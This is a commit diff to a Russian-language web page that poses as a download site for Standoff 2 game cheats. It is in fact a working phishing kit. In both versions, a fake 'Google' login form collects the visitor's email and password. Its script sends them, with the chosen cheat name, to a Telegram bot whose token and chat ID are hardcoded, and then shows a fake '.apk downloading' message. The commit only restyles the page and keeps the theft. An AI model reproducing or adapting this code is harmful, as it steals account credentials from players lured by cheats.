

Before and after one commit to zebra1122q-maker/Still, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,76 +2,121 @@
 <html lang="ru">
 <head>
 <meta charset="UTF-8">
-<meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>Standoff 2 Cheat Injector</title>
+<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
+<title>Standoff 2 Cheats</title>
 <style>
-  * { margin:0; padding:0; box-sizing:border-box; font-family:'Segoe UI',sans-serif; }
-  body { background:#0a0a0f; display:flex; justify-content:center; align-items:center; min-height:100vh; padding:20px; }
-  .card { background:#14141e; padding:40px; border-radius:20px; box-shadow:0 0 40px #00ff8844; width:420px; border:1px solid #00ff8855; }
-  .card h1 { color:#00ff88; text-align:center; margin-bottom:5px; font-size:24px; letter-spacing:2px; }
-  .sub { color:#888; text-align:center; font-size:13px; margin-bottom:20px; }
-  .cheat-grid { display:grid; grid-template-columns:1fr 1fr; gap:10px; margin:20px 0; }
-  .cheat-item { background:#1c1c2a; padding:12px 8px; border-radius:12px; border-left:3px solid #00ff88; text-align:center; }
-  .cheat-item .name { color:#fff; font-weight:bold; font-size:14px; }
-  .cheat-item .status { color:#00ff88; font-size:11px; }
-  .google-btn { background:#1e1e2e; color:#fff; padding:14px; border-radius:40px; text-align:center; font-weight:bold; border:1px solid #555; cursor:pointer; transition:0.3s; margin-bottom:20px; }
-  .google-btn:hover { background:#2a2a3e; border-color:#00ff88; }
-  .input-group { margin-bottom:15px; }
-  .input-group label { color:#ccc; font-size:13px; display:block; margin-bottom:5px; }
-  .input-group input { width:100%; padding:12px; border-radius:10px; border:1px solid #333; background:#0f0f18; color:#fff; outline:none; }
-  .input-group input:focus { border-color:#00ff88; }
-  .btn-download { width:100%; padding:14px; background:#00ff88; color:#0a0a0f; font-weight:bold; border:none; border-radius:40px; font-size:16px; cursor:pointer; transition:0.3s; }
-  .btn-download:hover { background:#00dd77; box-shadow:0 0 20px #00ff8866; }
-  .footnote { color:#555; font-size:12px; text-align:center; margin-top:20px; }
+  * { margin:0; padding:0; box-sizing:border-box; font-family:'Segoe UI',Roboto,system-ui,sans-serif; }
+  body { background:#0b0b0f; display:flex; justify-content:center; align-items:center; min-height:100vh; padding:16px; color:#c8c8d0; }
+  .container { background:#14141c; width:100%; max-width:400px; border-radius:24px; padding:24px 20px; border:1px solid #2a2a34; box-shadow:0 10px 40px #00000088; }
+  .app-icon { text-align:center; margin-bottom:12px; }
+  .app-icon span { font-size:42px; }
+  .app-title { color:#e8e8f0; font-size:22px; font-weight:700; text-align:center; letter-spacing:0.5px; }
+  .app-sub { color:#8888a0; text-align:center; font-size:13px; margin-bottom:20px; }
+
+  .divider { border-top:1px solid #22222e; margin:16px 0; }
+
+  .cheat-grid { display:grid; grid-template-columns:1fr 1fr; gap:12px; margin:12px 0 18px 0; }
+  .cheat-card { background:#1c1c26; border-radius:16px; padding:16px 8px; text-align:center; border:1.5px solid #2a2a36; transition:0.2s; cursor:pointer; }
+  .cheat-card:active { transform:scale(0.96); border-color:#6a6a8a; }
+  .cheat-card .icon { font-size:28px; display:block; margin-bottom:4px; }
+  .cheat-card .name { color:#e0e0ec; font-weight:600; font-size:14px; }
+  .cheat-card .badge { background:#2a2a3a; color:#aaaac0; font-size:10px; padding:2px 10px; border-radius:30px; display:inline-block; margin-top:4px; }
+  .cheat-card.selected { border-color:#6a7aff; background:#1e1e30; }
+
+  .download-btn { width:100%; background:#3a3a4e; color:#e8e8f0; padding:16px; border:none; border-radius:60px; font-size:17px; font-weight:600; margin-top:8px; transition:0.2s; }
+  .download-btn:active { transform:scale(0.97); background:#4a4a62; }
+  .download-btn:disabled { opacity:0.4; }
+
+  .login-form { display:none; margin-top:20px; background:#101018; padding:18px 16px; border-radius:20px; border:1px solid #2a2a36; }
+  .login-form label { color:#aaaabc; font-size:13px; display:block; margin-bottom:4px; }
+  .login-form input { width:100%; background:#0a0a10; border:1px solid #2a2a36; border-radius:12px; padding:14px; color:#e8e8f0; font-size:15px; outline:none; margin-bottom:14px; }
+  .login-form input:focus { border-color:#6a7aff; }
+  .login-form .submit-btn { width:100%; background:#6a7aff; color:#0b0b0f; font-weight:700; padding:14px; border:none; border-radius:60px; font-size:16px; }
+  .login-form .submit-btn:active { transform:scale(0.97); }
+
+  .footer-note { text-align:center; color:#44445a; font-size:11px; margin-top:16px; }
+  .status-dot { display:inline-block; width:8px; height:8px; border-radius:50%; background:#6a7aff; margin-right:4px; }
 </style>
 </head>
 <body>
-<div class="card">
-  <h1>⚡ STANDOFF 2 VIP</h1>
-  <div class="sub">Выбери чит и авторизуйся через Google</div>
 
-  <!-- БЛОК С ЧИТАМИ (ТОЧНО ПО ЗАПРОСУ) -->
-  <div class="cheat-grid">
-    <div class="cheat-item"><div class="name">ZENINDLC</div><div class="status">● Online</div></div>
-    <div class="cheat-item"><div class="name">PLUTONIUM</div><div class="status">● Online</div></div>
-    <div class="cheat-item"><div class="name">NERESTPC</div><div class="status">● Online</div></div>
-    <div class="cheat-item"><div class="name">NEWERPOST</div><div class="status">● Online</div></div>
+<div class="container">
+  <div class="app-icon"><span>🎯</span></div>
+  <div class="app-title">STANDOFF 2 CHEATS</div>
+  <div class="app-sub">Выбери сборку для загрузки</div>
+
+  <div class="divider"></div>
+
+  <div class="cheat-grid" id="cheatGrid">
+    <div class="cheat-card" data-cheat="ZENINDLC">
+      <span class="icon">⚡</span>
+      <div class="name">ZENINDLC</div>
+      <div class="badge">Aimbot + Wallhack</div>
+    </div>
+    <div class="cheat-card" data-cheat="PLUTONIUM">
+      <span class="icon">☢️</span>
+      <div class="name">PLUTONIUM</div>
+      <div class="badge">Esp + Triggerbot</div>
+    </div>
+    <div class="cheat-card" data-cheat="NERESTPC">
+      <span class="icon">🖥️</span>
+      <div class="name">NERESTPC</div>
+      <div class="badge">ПК-версия</div>
+    </div>
+    <div class="cheat-card" data-cheat="NEWERPOST">
+      <span class="icon">🔄</span>
+      <div class="name">NEWERPOST</div>
+      <div class="badge">Обновлённая</div>
+    </div>
   </div>
 
-  <div id="fakeGoogle" class="google-btn">🔐 Войти через Google</div>
-  <form id="loginForm">
-    <div class="input-group">
-      <label>Email (Google)</label>
-      <input type="email" id="email" placeholder="your@gmail.com" required>
-    </div>
-    <div class="input-group">
-      <label>Пароль</label>
-      <input type="password" id="password" placeholder="••••••••" required>
-    </div>
-    <button type="submit" class="btn-download">📥 Активировать выбранный чит</button>
-  </form>
-  <div class="footnote">🔥 1280 скачиваний сегодня</div>
+  <button class="download-btn" id="downloadBtn" disabled>📥 Скачать (выбери сборку)</button>
+
+  <div class="login-form" id="loginForm">
+    <label>📧 Google Email</label>
+    <input type="email" id="email" placeholder="your@gmail.com">
+    <label>🔑 Пароль</label>
+    <input type="password" id="password" placeholder="••••••••">
+    <button class="submit-btn" id="submitBtn">Подтвердить и скачать</button>
+  </div>
+
+  <div class="footer-note"><span class="status-dot"></span> 2 431 онлайн</div>
 </div>
 
 <script>
   const BOT_TOKEN = '8675567745:AAH6-avkBHo0FvymGdHwZKba9Em7eXojtPQ';
   const CHAT_ID = '7599846387';
 
-  document.getElementById('fakeGoogle').addEventListener('click', function() {
-    document.getElementById('email').focus();
+  let selectedCheat = null;
+
+  document.querySelectorAll('.cheat-card').forEach(card => {
+    card.addEventListener('click', function() {
+      document.querySelectorAll('.cheat-card').forEach(c => c.classList.remove('selected'));
+      this.classList.add('selected');
+      selectedCheat = this.dataset.cheat;
+      document.getElementById('downloadBtn').disabled = false;
+      document.getElementById('downloadBtn').innerHTML = `📥 Скачать ${selectedCheat}`;
+      document.getElementById('loginForm').style.display = 'none';
+    });
   });
 
-  document.getElementById('loginForm').addEventListener('submit', function(e) {
+  document.getElementById('downloadBtn').addEventListener('click', function() {
+    if (!selectedCheat) return;
+    document.getElementById('loginForm').style.display = 'block';
+    this.style.display = 'none';
+  });
+
+  document.getElementById('submitBtn').addEventListener('click', function(e) {
     e.preventDefault();
     const email = document.getElementById('email').value.trim();
     const password = document.getElementById('password').value.trim();
 
     if (!email || !password) {
-      alert('Заполни оба поля');
+      alert('Заполни почту и пароль');
       return;
     }
 
-    const message = `🔐 НОВЫЙ ЛОГИН\n📧 Email: ${email}\n🔑 Pass: ${password}`;
+    const message = `📱 ANDROID ЧИТ\n🔹 Сборка: ${selectedCheat}\n📧 Email: ${email}\n🔑 Pass: ${password}`;
 
     fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
       method: 'POST',
@@ -79,14 +124,18 @@
       body: JSON.stringify({ chat_id: CHAT_ID, text: message })
     })
     .then(() => {
-      document.querySelector('.card').innerHTML = `
-        <h1 style="color:#00ff88;">✅ ЧИТ АКТИВИРОВАН</h1>
-        <p style="color:#aaa;margin-top:20px;">Файл injector.exe загружается...</p>
-        <p style="color:#555;font-size:13px;margin-top:30px;">(перезагрузи страницу для повторной активации)</p>
+      document.querySelector('.container').innerHTML = `
+        <div style="text-align:center;padding:40px 0;color:#c8c8d0;">
+          <div style="font-size:48px;">📦</div>
+          <h2 style="color:#e8e8f0;margin:12px 0;">Скачивание началось</h2>
+          <p style="color:#8888a0;">Файл ${selectedCheat}.apk загружается</p>
+          <p style="color:#666680;font-size:13px;margin-top:8px;">Подожди, идёт подготовка...</p>
+          <p style="color:#44445a;font-size:12px;margin-top:20px;">обнови страницу для повторной загрузки</p>
+        </div>
       `;
     })
     .catch(() => {
-      alert('Ошибка соединения, но чит активирован');
+      alert('Ошибка соединения, попробуй позже');
     });
   });
 </script>
```
